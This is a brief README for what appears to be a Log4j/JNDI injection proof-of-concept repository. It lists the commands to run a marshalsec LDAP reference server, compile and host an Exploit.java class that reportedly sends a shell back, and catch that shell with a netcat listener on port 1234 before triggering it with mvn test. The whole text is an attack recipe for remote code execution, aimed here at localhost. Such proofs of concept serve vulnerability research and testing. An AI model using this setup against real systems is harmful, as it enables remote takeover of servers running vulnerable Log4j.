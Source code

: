 # jndi/log4j-poc
How to set up marshalsec's LDAP provider server:
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit

How to set up web server hosting RCE payload:
cd exploit_class \
javac Exploit.java #saved in Exploit.class \
python3 -m http.server 80

Exploit.java sends a webshell to localhost port 1234.

Finally, nc -lvp 1234 and run mvn test.
